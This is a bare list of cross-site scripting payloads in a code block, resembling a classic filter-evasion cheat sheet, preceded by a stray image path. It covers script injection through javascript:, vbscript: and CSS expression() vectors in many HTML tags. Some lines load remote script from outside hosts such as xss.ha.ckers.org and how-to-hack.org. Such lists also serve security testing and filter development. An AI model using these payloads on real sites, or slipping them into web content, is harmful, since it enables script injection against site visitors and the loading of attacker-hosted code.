 ```
 
<br size="&{alert('XSS')}">
 
<LAYER src="http://xss.ha.ckers.org/a.js"></layer>
 
<LINK REL="stylesheet" href="javascript:alert('XSS');">
 
<IMG src='vbscript:msgbox("XSS")'>
 
<IMG src="mocha:[code]">
 
<IMG src="livescript:[code]">
 
<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">
 
<IFRAME src=javascript:alert('XSS')></IFRAME>
 
<FRAMESET><FRAME src=javascript:alert('XSS')></FRAME></FRAMESET>
 
<TABLE BACKGROUND="javascript:alert('XSS')">
 
<DIV STYLE="background-image: url(javascript:alert('XSS'))">
 
<DIV STYLE="behaviour: url('http://www.how-to-hack.org/exploit.html');">
 
<DIV STYLE="width: expression(alert('XSS'));">
 
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
 
<IMG STYLE='xss:expre\ssion(alert("XSS"))'>
 
<STYLE TYPE="text/javascript">alert('XSS');</STYLE>
 
<STYLE TYPE="text/css">.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A class="XSS"></A>
 
<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>
 
<BASE href="javascript:alert('XSS');//">
 
getURL("javascript:alert('XSS')")
 
a="get";b="URL";c="javascript:";d="alert('XSS');";eval(a+b+c+d);
 
<XML src="javascript:alert('XSS');">
 
"> <BODY><SCRIPT>function a(){alert('XSS');}</SCRIPT><"
 
<SCRIPT src="http://xss.ha.ckers.org/xss.jpg"></SCRIPT>
 
<IMG src="javascript:alert('XSS')"
```
